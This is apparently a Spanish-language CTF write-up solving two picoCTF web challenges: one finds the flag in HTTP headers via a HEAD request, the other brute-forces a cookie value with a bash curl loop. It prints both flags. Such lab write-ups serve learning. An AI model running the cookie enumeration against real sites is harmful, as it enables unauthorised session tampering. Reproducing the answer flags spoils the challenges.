 ## GET aHEAD

Nos dan una web que tiene dos botones "elige rojo" y "elige azul", si le das a uno se cambia el color del fondo.
Con el azul lo toma como peticion POST a index.php mientras que verde es GET a index.php?. Inspeccionando el codigo fuente con el curl no he encontrado
ninguna flag ni ruta escondida. Examinando las peticiones con las herramientas del navegador tampoco encontre gran cosa. Estaba algo perdido hasta que me 
dio por hacer un curl -I para ver si habia mas informacion en los headers y di con la flag.
```bash
~:$ curl http://mercury.picoctf.net:53554  -I
HTTP/1.1 200 OK
flag: picoCTF{r3j3ct_th3_du4l1ty_2e5ba39f}
Content-type: text/html; charset=UTF-8
```
Tiene sentido porque el titulo del reto dice de HEAD y los colores daban la pista de probar a cambiar los metodos (get = rojo, post = azul )
Con burpsuite cambie a HEAD y me salio lo mismo (el el metodo que usa el curl -I).

--------------------------------------------------------------------

## Cookies

En esta web nos pone un "buscador de cookies" y la palabra "snickerdoodle" de ejemplo (supongo que sera una marca de cookies). Si pongo esa misma palabra
dice "I love snickerdoodle cookies!". Como estamos hablando todo el reto de las cookies, mire en el navegador en Cookies. Pone 0. Si le das a "home",
te sale el bscador otra vez y en cockies un -1. Si pongo otros numeros me sale el mensaje de "I love" otros tipos de cookies asi que supongo que 
habra que fuzzear o applicar algun tipo de sqli sencilla. Replicaos con curl la peticio:
```console
~:$ curl -s http://mercury.picoctf.net:6418 -H "Cookie: name=0"  -L | html2text
**** Cookies ****
×  That is a cookie! Not very special though...
I love snickerdoodle cookies!
```
Con un script de bash se pueden probar muchos numeros
```bash
for numero in $(seq 1 30); do
    peticion=$(curl -s "http://mercury.picoctf.net:6418/" -H "Cookie: name=$numero" -L | html2text )
    if ! echo $peticion | grep "Not very special" > /dev/null; then
        echo  "[Cookie nº -> $numero] $peticion" 
        exit 0
    fi  
done
```
```console
~:$ bash cookie.sh 
[Cookie nº -> 18] 
Flag: picoCTF{3v3ry1_l0v3s_c00k135_88acab36}
```


